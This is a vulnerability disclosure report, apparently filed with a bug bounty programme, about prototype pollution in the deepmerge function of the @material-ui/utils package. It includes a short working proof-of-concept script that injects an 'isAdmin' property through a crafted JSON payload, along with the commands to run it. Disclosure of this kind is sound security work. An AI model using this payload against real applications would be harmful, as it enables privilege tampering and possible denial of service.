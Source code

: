 ## ✍️ Description
material-ui package is vulnerable to prototype pollution issue 
file can be found in  https://github.com/mui-org/material-ui/blob/next/packages/material-ui-utils/src/deepmerge.ts
## 🕵️‍♂️ Proof of Concept 
1. Creating poc file namely poc.js
```js
var utils = require('@material-ui/utils');
var src = {};
let object = utils.deepmerge({}, JSON.parse('{ "myProperty": "a", "prototype" : { "isAdmin" : true } }'), {
    clone: false,
});
console.log(object.prototype.isAdmin);
```
2. Execute command in terminal  npm install @material-ui/utils
3. Execute command in terminal  node poc.js
[POC] https://drive.google.com/file/d/1twz_btDed0aeQVEO8BBAVs4Vg8kWjcxV/view?usp=sharing
## 💥 Impact
Prototype pollution which could lead to DOS and RCE
## ✅ Checklist
- [x] _Created and populated the README.md and vulnerability.json files_
- [x] _Provided the repository URL and any applicable [permalinks]([https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files](https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files))_
- [x] _Defined all the applicable weaknesses ([CWEs]([https://cwe.mitre.org/](https://cwe.mitre.org/)))_
- [x] _Proposed the CVSS vector items i.e. User Interaction, Attack Complexity_
- [x] _Checked that the vulnerability affects the latest version of the package released_
- [x] _Checked that a fix does not currently exist that remediates this vulnerability_
- [x] _Complied with all applicable laws_


